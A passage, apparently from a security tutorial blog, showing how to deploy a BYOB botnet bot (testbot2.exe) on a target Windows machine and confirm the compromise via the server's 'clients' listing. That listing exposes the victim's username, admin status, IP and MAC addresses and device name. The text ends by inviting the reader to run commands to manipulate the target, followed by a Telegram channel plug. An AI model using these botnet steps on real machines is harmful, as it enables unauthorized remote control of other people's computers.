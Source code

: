 For opening bot type run testbot2.exe in Windows CMD.

When above query is executed in target machine. A session will be created in botnet server.
For checking session, type clients
[root @ /home/iicybersecurity/Downloads/byob/byob]
>clients  
1`
    username                    iicybersecurity
    administrator               True
    uid                         7ac235609435c8a16adc9049ec187daa
    sessions                    True
    mac_address                 D4:52:2A:45:31:E4
    local_ip                    169.254.123.37
    joined                      2019-01-23 06:21:27.582403
    last_online                 2019-01-23 07:22:15.861055
    public_ip                   27.5.19.124
    platform                    win32
    architecture                32
    online                      True
    device                      WIN-31VSBP3FUQT
As you can see the target is showing true. That means bot is completely configured in target machine.
Now you can run various commands to manipulate target.
 •  Join My Telegram Channel :- ClickHere
